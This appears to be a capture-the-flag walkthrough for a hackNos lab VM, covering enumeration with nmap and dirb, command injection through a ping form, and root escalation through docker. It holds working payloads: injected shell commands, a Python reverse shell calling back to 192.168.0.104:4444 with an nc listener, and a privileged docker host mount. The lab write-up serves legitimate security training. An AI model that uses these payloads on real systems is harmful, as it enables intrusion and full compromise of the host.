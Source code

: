# Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)


---

## Enumeration
- VM IP: `sudo netdiscover`
	* `192.168.0.12     08:00:27:89:20:c1      1      60  VMWare`
- VM info: `nmap -A 192.168.0.12`
	* `21/tcp open  ftp` Anonymous log-in is on. --> FTP Banner "ftp 'Security@hackNos'"
	* `22/tcp open  ssh`
	* `80/tcp open  http`
- web server info: `dirb -w http://192.168.0.12` 
	* http://192.168.0.12/index.html
	* http://192.168.0.12/css/style.css
	* http://192.168.0.12/css/2.jpg
- web server 192.168.0.12/5ecure login using:
	* admin:Security@hackNos <-- Banner
- web server info: `dirb -w http://192.168.0.12/5ecure`		
	* http://192.168.0.12/5ecure/index.html
		* form POSTs data to output.php
	* http://192.168.0.12/5ecure/css/style.css
	* http://192.168.0.12/5ecure/css/2.jpg
	* http://192.168.0.12/5ecure/output.php
		* simple ping <ip> function + stdout
---
	
## Penetration
- 192.168.0.12/5ecure/out.php:
	* `exec(ping $ip)`, possible shell injection 
- $ip = || command, '; + command', '&& + command', '& + command' didn't work out, char escape probably 
- Examples:
	- ip=|| ls 
		* system navigation
	* ip=|| whoami 
		* www-data
	* ip=|| vi *file*
		* privilege check
	* ip=|| export	

- [intresting files](#intresting-files):
	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information
---

## Escelation
- `ssh 192.168.0.12 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- container: `cd /host`
---

## Bonus

### CLI 
_Bonus, not necessary_
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- on 192.168.0.12/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 
---

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
